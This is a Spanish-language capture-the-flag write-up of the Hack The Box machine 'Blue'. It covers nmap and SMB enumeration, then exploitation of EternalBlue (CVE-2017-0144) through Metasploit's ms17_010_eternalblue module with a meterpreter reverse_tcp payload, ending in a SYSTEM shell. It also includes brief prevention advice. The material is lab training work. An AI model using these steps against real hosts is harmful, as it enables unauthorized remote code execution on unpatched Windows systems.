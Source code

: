 ```yaml
---
{"dg-publish":true,"permalink":"/hack-the-box/maquinas/easy/blue/","dgPassFrontmatter":true}
---
```


Empezamos realizando un escaneo de nmap

```
nmap -sCV 10.10.10.40 -T5 -oN blue_machine -v
```

![Pasted image 20250522000912.png](/img/user/Imagenes/Pasted%20image%2020250522000912.png)
Observamos que tenemos algunos puertos importantes como el 139 o 445.

Procederemos a hacer una enumeracion basica de smb con el objetivo de detectar el sistema operativo, nombre de host y dominio del equipo remoto.

```
nmap -p 139,445 --script=smb-os-discovery 10.10.10.40
```

![Pasted image 20250522001503.png](/img/user/Imagenes/Pasted%20image%2020250522001503.png)

Descubrimos que el hostname de Blue vienea ser 'haris-PC', tambien descubrimos que el sistema operativo corriendo en la maquina objetivo es **windows 7**.

Vamos a descubrir cuantos recursos compartidos hay en Blue.

```
nmap -p 445 --script=smb-enum-shares 10.10.10.40
```

Nos retorna lo siguiente, quiere decir que el puerto esta siendo filtrado por un firewall. Es decir, el paquete fue enviado, pero no recibio ninguna respuesta
![Pasted image 20250522002159.png](/img/user/Imagenes/Pasted%20image%2020250522002159.png)

Al igual con el puerto 139:

![Pasted image 20250522002327.png](/img/user/Imagenes/Pasted%20image%2020250522002327.png)

Si listamos con smbclient nos sale lo siguiente:
```
smbclient -L //10.10.10.40 -N
```

![Pasted image 20250522002414.png](/img/user/Imagenes/Pasted%20image%2020250522002414.png)

Pero por practica vamos a usar msfconsole:

- Empezaremos buscando modulos smb utiles:
```
	- search type:auxiliary smb
```

Veremos varios resultados, pero los mas utiles para enumeracion son:

- **auxiliary/scanner/smb/smb_enumshares**
- **auxiliary/scanner/smb/smb_enumusers**
- **auxiliary/scanner/smb/smb_version**
- **auxiliary/scanner/smb/smb_login** (si tienes credenciales)

## Enumerar recursos compatidos smb (shares)
Usaremos credenciales por defecto como por ejemplo: guest

- set RHOSTS 10.10.10.40
- set THREADS 5
- set SMBUser guest
- set SMBPass ""
- run

![Pasted image 20250522003301.png](/img/user/Imagenes/Pasted%20image%2020250522003301.png)

## Enumerar usuarios smb (users)

![Pasted image 20250522003642.png](/img/user/Imagenes/Pasted%20image%2020250522003642.png)

Aqui podemos ver que el usuario guest, no tiene permisos suficientes para poder enumerar usuarios, intentaremos con los usuarios.

## Como hemos encontrado recursos compartidos procederemos a ingresar

Para interactuar con los recursos compartidos usaremos smbclient:

```
smbclient //10.10.10.40/shares -N
```

Los unico recursos compartidos con los cuales podemos interactuar son dos: **Share** y **Users**

Intentamos con **Share**:

![Pasted image 20250522160800.png](/img/user/Imagenes/Pasted%20image%2020250522160800.png)

Intentamos con "Users"

![Pasted image 20250522004743.png](/img/user/Imagenes/Pasted%20image%2020250522004743.png)

Nada interesante el los recursos compartidos.

Investigando un poco, vemos que existe una vulnerabilidad llamada EternalBlue la cual afecta principalmente a versiones de Windows que tienen el servicio SMBv1 habilitado y sin parches. Fue explotada por el exploit EternalBlue, filtrado por el grupo Shadow Brokers en 2017, y se identifica como:

CVE-2017-0144

Los sisemas que son vulnerables a EternalBlue (si no tienen el parche):

- Windows XP
- Windows Vista
- Windows 7
- Windows 8 (menos comun, pero puede verse afectado)
- Windows Server 2003
- Windows Server 2008
- Windows Server 2012 (en cietas configuraciones con SMBv1)
- Windows 10 (anteriores a marzo de 2017, sin parche)

Que permite hacer EternalBlue?:
- Ejecucion remota de codigo (RCE) a traves del puerto 445/TCP (SMB).
- Se usa para obtener shells remotas sin autenticacion.
- Se popularizo en malware como WannaCry y NotPetya.

Recomendaciones para prevenir:
1. Deshabilitar SMBv1 si no es necesario.
2. Aplicar todos los parches de seguridad de Windows.
3. Bloquear el puerto 445/TCP en firewalls cuando sea posible.

Procedere a probar con un payload de nmap para verificar si esta maquina Windows 7 es vulnerable a EternalBlue.

```
nmap -p 445 --script smb-vuln-ms17-010 10.10.10.40
```

![Pasted image 20250522163445.png](/img/user/Imagenes/Pasted%20image%2020250522163445.png)

O tambien podemos usar el siguiente payload para enumerar vulnerabiliades conocidas en el SMB:

```
nmap -p 445 --script smb-vuln* 10.10.10.40
```

![Pasted image 20250522163652.png](/img/user/Imagenes/Pasted%20image%2020250522163652.png)

Algunos payloads extras:
- nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-vuln* ip (escaneo combinado completo de SMB)
- nmap -p 445 --script smb-os-discovery,smb-protocols ip (verificar version de SMB y detalles del servidor)
- sudo nmap --script-updatedb (asegurarnos de que nmap tenga los scripts habilitados)

Una vez que hemos identificado la vulnerabilidad, usaremos msfconsole para explotarla.

Iniciamos el msfconsole:

- msfconsole

Cargamos el exploit:

- use exploit/windows/smb/ms17_010_eternalblue

Verificamos las opciones:

- show options

Establecemos la IP del objetivo:

- set RHOSTS 10.10.10.40

Seleccionamos el payload (por ejemplo, Meterpreter):

- set PAYLOAD windows/x64/meterpreter/reverse_tcp
Si el sismte es de 32 bits, usa: windows/meterpreter/reverse_tcp

En este casoo el payload que sirve es el de **x64**

![Pasted image 20250522164803.png](/img/user/Imagenes/Pasted%20image%2020250522164803.png)

Damos un **shell** en el meterpreter y tenemos nuestra consola de windows interactiva:

![Pasted image 20250522165214.png](/img/user/Imagenes/Pasted%20image%2020250522165214.png)


Para ver el usuario con el que se ejecuta el exploit usamos **whoami**: 

- nt authority\system

Para encontrar el user.txt nos vamos al usuario **haris**:

- type user.txt

![Pasted image 20250522165350.png](/img/user/Imagenes/Pasted%20image%2020250522165350.png)

Al igual para el root nos vamos a **Administrator**:

![Pasted image 20250522165441.png](/img/user/Imagenes/Pasted%20image%2020250522165441.png)

thansk.